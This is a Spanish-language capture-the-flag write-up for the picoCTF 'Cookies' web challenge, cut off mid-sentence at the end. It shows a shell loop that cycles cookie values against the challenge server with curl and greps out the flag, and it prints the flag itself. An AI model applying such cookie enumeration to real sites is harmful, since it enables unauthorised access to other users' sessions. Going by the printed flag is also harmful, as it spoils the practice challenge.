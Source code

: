 ## Objetivo

Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:29649/](http://mercury.picoctf.net:29649/)
## Solución
```
┌──(kali㉿kali)-[~]
└─$ for i in {0..20}; do curl -s  http://mercury.picoctf.net:29649/check -H "Cookie: name=$i"; done | grep pico 

            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}</code></p>
                                                                                  
┌──(kali㉿kali)-[~]
└─$ 
```


## Notas adicionales
Se puede editar la cookie desde la pagina o mediante la terminal.
Haremos un for del 0 al 20 para que recorra todas las cookie con el grep le pedimos que nos muestre 